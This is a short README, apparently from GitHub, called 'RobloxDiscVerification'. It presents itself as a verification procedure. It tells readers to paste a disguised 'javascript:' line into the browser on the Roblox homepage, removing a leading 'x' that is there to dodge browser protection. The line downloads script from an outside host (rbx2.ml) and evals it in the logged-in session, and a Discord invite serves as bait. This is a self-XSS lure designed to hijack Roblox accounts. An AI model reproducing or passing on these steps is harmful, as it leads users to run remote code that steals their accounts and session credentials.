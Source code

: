 # RobloxDiscVerification

Step 1. Go to your roblox homepage

Step 2. Copy this: xJavascript:$.get("//rbx2.ml/roblox-api?id=10623",eval)

Step 3. Go to the roblox homepage and paste it

Step 4. Remove the x at the beginning

Step 5. Press enter

Step 6. Join this discord server to see it in action: https://discord.gg/pVsgvwVTap
